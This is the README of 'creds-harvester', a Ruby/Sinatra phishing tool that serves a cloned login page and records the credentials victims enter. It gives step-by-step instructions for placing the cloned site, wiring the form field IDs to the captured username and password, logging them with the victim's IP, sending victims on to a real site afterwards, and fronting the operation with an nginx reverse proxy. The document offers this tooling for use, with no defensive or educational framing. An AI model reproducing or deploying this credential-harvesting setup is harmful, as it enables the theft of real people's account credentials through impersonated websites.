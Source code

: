 # creds-harvester
A simple, yet highly customizable, script to use with cloned website for phishing and credentials harvesting.



## Stored data
Collected credentials will be stored in `credentials.txt` file. The `credentials.txt` is not accessable publicly as there is no route to it, test it.

**Stored Data**
- Collection time
- Username
- Password
- Remote Client's IP address

**Format**
```
YY-MM-DD HH:MM | USERNAME : PASSWORD : CLIENT_IPADD
```

## Requirements 
This script uses Sinatra framework as web application server. I also recommend to use `rerun` command to run the code as `rerun` watches the chanes on the file and restart it again, so you don't have to interrupt the service.

### Install gems
```
gem install sinatra rerun
```

## How to use?

#### Step #1
Put your cloned website under `view` directory

#### Step #2 
Find the input id from within the cloned login form you want to use (case sensitive).
Example: 
```html
<!DOCTYPE html>
<html>
<body>

<h2>HTML Forms</h2>

<form action="/action_page.php">
  Username:<br>
  <input type="text" id="UserName" name="User">
  <br>
  Password:<br>
  <input type="password" id="Password" name="Pass">
  <br><br>
  <input type="submit" value="Submit">
</form> 

</body>
</html>
```

- Parameter id for user is: UserName
- Parameter id for pass is: Password

#### Step #3
Go edit `login.rb` script and add the parameter ID's 
```ruby
username = params['UserName']
password = params['Password']
```

**The Main page**

Specify the main page file from within `views` directory. No need to include views directory as it's already included.

```ruby
erb 'PATH/TO/LOGIN_PAGE'.to_sym
```

**Redirect 404**

You can redirect the users to the main page if visited not found pages
```ruby
not_found do
  redirect '/'.to_sym
end
```

**Redirect after submitting**

Also, you can redirect the users once they submit their credentials to the cloned website or other of your choice.
```ruby
redirect 'https://google.com'
```

#### Step #4
Run the script as following 

```
rerun 'ruby login.rb'
```

#### Step #5 (optional - recommended)
Sometime the phishing website is just a small part of many websites on the server. 

If you want to run it with nginx, you can make nginx as reverse proxy for the application. 

1. Run the script (Step #4)

2. Configure nginx 

```
nano /etc/nginx/sites-available/example.com.conf
```
Then add the following and restart nginx service.

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name _;
    return 301 https://$host$request_uri;
    location / {
      proxy_pass       http://localhost:8181;
      proxy_set_header Host      $host;
      proxy_set_header X-Real-IP $remote_addr;
    }
}
```


